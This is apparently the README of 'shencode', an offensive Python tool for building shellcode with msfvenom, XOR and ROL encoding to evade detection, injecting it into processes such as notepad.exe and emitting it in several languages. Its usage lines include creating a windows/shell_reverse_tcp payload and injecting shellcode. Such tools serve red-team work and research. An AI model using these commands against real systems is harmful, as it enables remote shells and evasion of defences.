

# shencode

# shencode
Create, encode, iniject, show Shellcode


## Features

### Version 0.3

- create
	- create shellcodes with msfvenom
- encode
	- search and replace ROR13 encoding with ROL
	- XOR encryption
- inject
	- inject shellcode into a remote process
- output
	- raw shellcode to file
	- formatting options: `C++, C#, C-ASM, PS, PY, HEX`
	- output in console windows
	- output in template

## ToDo

- chaining commands for better integration
- automatical compile feature
- integrate more frameworks
- integrate more encoder
- Use PATH for better msfvenom integration

## How to use

### create shellcode

`python shencode.py create --payload windows/shell_reverse_tcp --lhost 127.0.0.1 --lport 4443`

### encode shellcode

#### ROR13 to ROL

`python shencode.py encode --filename sc-120824-120101.bin --key 33`

#### XOR

`python shencode.py encode --filename shell.raw --xor --xorkey 96`

### inject shellcode

`python shencode.py inject --filename calc.raw --processname notepad.exe --startprocess`
### output in different styles

#### console output

`python shencode.py -o {c, casm, cs, ps1, py, hex} <commands>`

Check [this repository](https://github.com/psycore8/bin2shellcode) for more information regarding the output.

#### write output to a template file

`python shencode.py output --filename inputfile --write templatefile --syntax c`

This command replaces a `!++BUFFER++!` placeholder in the given file e.g.

```cpp
unsigned char buf[] =
!++BUFFER++!
```

will be replaced by the generated shellcode

```cpp
unsigned char buf[] =
"\x90\x01\..\xff";
```

## Config

Please change the metasploit path in line 8. This will be fixed in the future.

`msfvenom_path = "c:\\metasploit-framework\\bin\\msfvenom.bat"`

## Parameter


| **Command** | **Subcommand** | **Short** | **Description**                                                                       |
| ----------- | -------------- | --------- | ------------------------------------------------------------------------------------- |
| create      |                |           | create a shellcode using msfvenom                                                     |
|             | --payload      | -p        | payload to use e.g. windows/shell_reverse_tcp                                         |
|             | --lhost        | -lh       | LHOST Argument                                                                        |
|             | --lport        | -lp       | LPORT Argument                                                                        |
| encode      |                |           | Shellcode encoding                                                                    |
|             | --filename     | -f        | raw input file with shellcode                                                         |
|             | --ror2rol      | -r        | encode windows function hashes to ROL                                                 |
|             | --key          | -rk       | ROL key for encoding                                                                  |
|             | --xor          | -x        | use additional XOR encoding                                                           |
|             | --xorkey       | -xk       | XOR key for encoding                                                                  |
|             | --decompile    |           | decompile modified bytes                                                              |
|             | --showmod      |           | display modifications                                                                 |
| inject      |                |           | inject shellcode                                                                      |
|             | --filename     | -f        | raw input file with shellcode to inject                                               |
|             | --processname  | -p        | process name to inject                                                                |
|             | --startprocess | -s        | if set, process will be started                                                       |
| output      |                |           | create formatted output by filename                                                   |
|             | --filename     | -f        | raw input file with shellcode                                                         |
|             | --syntax       | -s        | formatting the shellcode in C, Casm, C#, Powershell, python or hex                    |
|             | --write        | -w        | write output to the given filename (replacing  `!++BUFFER++!` placeholder in the file |
| --output    |                |           | formatting the shellcode in C, Casm, C#, Powershell, python or hex                    |

## References

- [Function Name Hashing](https://www.bordergate.co.uk/function-name-hashing/)
- [Win32API with python3 injection](https://systemweakness.com/win32api-with-python3-part-iii-injection-6dd3c1b99c90)
- [Violent python: XOR Encryption](https://samsclass.info/124/proj14/VPxor.htm)
- [How to easily encrypt file in python](https://www.stackzero.net/how-to-easily-encrypt-file-in-python/)
